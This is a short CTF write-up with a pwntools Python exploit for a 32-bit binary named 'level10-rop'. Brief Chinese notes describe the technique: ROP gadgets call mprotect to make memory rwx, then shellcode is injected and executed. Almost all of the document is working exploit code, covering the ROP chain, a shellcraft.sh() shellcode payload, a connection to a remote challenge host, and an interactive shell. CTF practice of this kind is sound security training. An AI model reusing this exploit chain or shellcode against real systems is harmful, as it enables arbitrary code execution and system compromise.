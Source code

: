 # level10-rop

##### 通过mprotect系统调用，开启一段rwx的内存权限，将shellcode注入后跳转执行
##### 利用好给出的,pop eax;pop ebx;pop ecx; pop edx; int 80 ret;gadget
##### 注意：mprotect只能开启已经在内存中的段的权限，应先用gdb查看各内存段的位置

```python
from pwn import *
context.log_level="debug"
pwn_file="./level10-rop"
elf=ELF(pwn_file)

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22010)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

say1= r.recv()

inject_addr = 0x8048000
start_func = 0x804813A
read_sth = 0x80480FD

pop_eax = 0x804819C
pop_ebx = 0x804819E
pop_ecx = 0x80481A0
pop_edx = 0x80481A2

eax_val = 0x7d 
ebx_val = inject_addr
ecx_val = 0x1000
edx_val = 7
int_80 = 0x80481a4 

run_addr = inject_addr + 0x500
sh = asm(shellcraft.sh())

payload_m = 'a'*0x30
payload_m += p32(pop_eax) + p32(eax_val)
payload_m += p32(pop_ebx) + p32(ebx_val)
payload_m += p32(pop_ecx) + p32(ecx_val)
payload_m += p32(pop_edx) + p32(edx_val)
payload_m += p32(int_80)  + p32(read_sth) + p32(run_addr) + p32(0) + p32(run_addr) +p32(0x80)

r.sendline(payload_m)
r.recv()
r.sendline(sh)

payload_test = 'a'*0x30+p32(0x08048115) +p32(0)+ p32(1) + p32(0xffffd42c) +p32(4)
r.interactive()
```
